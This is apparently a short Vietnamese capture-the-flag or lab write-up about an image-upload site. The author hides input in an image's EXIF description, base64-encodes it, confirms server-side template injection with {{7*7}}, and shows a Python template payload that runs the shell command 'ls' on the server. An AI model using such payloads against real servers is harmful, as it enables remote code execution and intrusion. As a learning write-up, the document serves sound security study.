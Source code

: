 ![image](https://github.com/user-attachments/assets/c85cd759-d817-4e71-9039-0ecf28b24b25)

Trang web có chức năng chính là upload ảnh gồm PNG hoặc JPG và giới hạn 5mb

![image](https://github.com/user-attachments/assets/a4474c4e-33e5-4392-8293-bb50853c539d)

Tôi sử dụng `exiftool tool -ImageDescription="hello" github.png ` để chỉnh Image Description có nội dung là hello

![image](https://github.com/user-attachments/assets/209e189e-850a-42be-96b7-39a7c230fb4f)

![image](https://github.com/user-attachments/assets/4f516762-9f7c-4510-aeee-8f782a8b5652)

Kết quả là "not valid Base64", tôi thử encoded theo base64 thì nó hiển thị được

![image](https://github.com/user-attachments/assets/d7b458ad-c5b8-4d40-bb17-521c24bd9a85)

Theo như tôi dự đoán thì có vẻ lỗi sẽ liên quan đến server side thay vì client side, tôi thử dùng {{7*7}}

![image](https://github.com/user-attachments/assets/0a122067-6fc9-4050-952d-52b94c67c980)

Và nó xuất hiện ssti, tôi sử dụng wappalyzer thì có xuất hiện là website sử dụng python, tôi xài tạm cái payload ssti và encode sang base64

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}`

![image](https://github.com/user-attachments/assets/d9227582-83f1-4133-95a3-1b55fac4ef51)

![image](https://github.com/user-attachments/assets/8b05bb60-2536-47a0-9fe7-b8911b077d51)
